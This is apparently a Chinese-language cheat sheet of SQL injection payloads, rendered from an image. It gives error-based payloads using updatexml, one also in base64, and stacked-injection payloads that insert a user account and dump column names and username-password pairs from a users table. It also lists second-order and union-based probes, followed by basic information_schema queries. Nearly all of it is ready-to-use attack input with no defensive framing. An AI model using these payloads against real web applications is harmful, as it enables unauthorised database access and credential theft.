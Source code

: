 ```sql
admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
base64编码后：
YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd
2U=
```

### 堆叠注入

```sql
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from
information_schema.columns where table_schema=database() and
table_name='users'),database() -- qwe
//获取字段内数据
-1' union select 1,(select group_concat(concat_ws('_',username,password)) from
users),database() -- qwe
```

### 二次注入

```sql
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#
1' order by 5#
1' union select 1,2,3,4,5#
1' union select 1,database(),3,4,5#
1' union select 1,(select table_name from information_schema.tables where
table_schema=database()),2,3,4,5#
1' union select 1,user(),3,4,5#

select * from users where id= {id}
select * from users where id= '1' and select database()'
id= 1 and 1=1 --+
id= 1 and 1=2 --+
```



### 使用 `information_schema` 数据库

```sql
USE information_schema;
```

### 查看 `information_schema` 数据库中的所有表

```sql
SHOW TABLES;
```

### 查看所有表中的所有字段

```sql
SELECT column_name FROM information_schema.columns;
```
